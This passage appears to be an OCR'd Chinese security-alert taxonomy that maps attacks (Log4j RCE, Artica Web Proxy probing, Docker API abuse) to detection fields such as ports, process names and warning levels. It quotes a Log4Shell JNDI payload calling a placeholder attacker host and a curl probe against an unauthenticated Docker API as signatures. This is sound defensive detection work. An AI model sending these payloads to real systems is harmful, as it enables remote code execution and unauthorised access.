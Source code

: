 * **event\_source\_type = 漏洞 / 告警分析 / Web攻击**
* **alert\_classification = RCE / 远程代码执行**
* **payload**：`${jndi:ldap://attacker.com}` 等恶意字符串
* **process\_name = java**
* **process\_cmd = java -jar / 启动 log4j 服务**
* **cmd\_parameters = 启动参数或传入数据**
* **destination\_port = 80/443/8080**
* **service\_type = http / web**
* **protocol\_type = TCP**
* **event\_opration\_type = execute**
* **alert\_source\_country = 攻击IP归属**
* **source\_IPv4 = 外部攻击源**
* **file\_ID / name / directory**：可写入webshell等
* **warning\_level = 高**
* **network\_partition = 外网**
* **subject\_entity\_type = process**
* **object\_entity\_type = file / process**

---

#### 34. **Artica Web Proxy**

> 注：此攻击名较模糊，判断为针对 Artica Web Proxy 软件的漏洞或扫描行为。

* **event\_source\_type = 漏洞 / 配置不合规 / 异常通信**
* **alert\_classification = Web服务配置弱点 / 扫描探测**
* **protocol\_type = TCP**
* **service\_type = http / proxy**
* **destination\_port = 3128 / 8080**
* **payload = 请求头中包含 Artica 标识**
* **process\_name = artica-proxy / squid**
* **event\_opration\_type = read / probe**
* **source\_IPv4 = 外部扫描器**
* **freq\_alert\_dport / freq\_alert\_service**
* **warning\_level = 中**

---

#### 35. **Docker漏洞攻击**

* **event\_source\_type = 漏洞 / 配置不合规**
* **alert\_classification = 未授权访问 / RCE**
* **service\_type = docker / http**
* **protocol\_type = TCP**
* **destination\_port = 2375 / 2376**
* **payload = curl [http://IP:2375/containers/json](http://IP:2375/containers/json)**
* **process\_name = dockerd**
* **cmd\_parameters = docker exec / run**
* **process\_user = root**
* **file\_ID / name / directory**：可能下载 payload
* **event\_opration\_type = execute / write**
* **num\_file\_creations += 1**
* **num\_root\_cmds += 多**
* **object\_entity\_type = file / process**
* **subject\_entity\_type = process**
* **alert\_source\_country**
* **warning\_level = 高**

---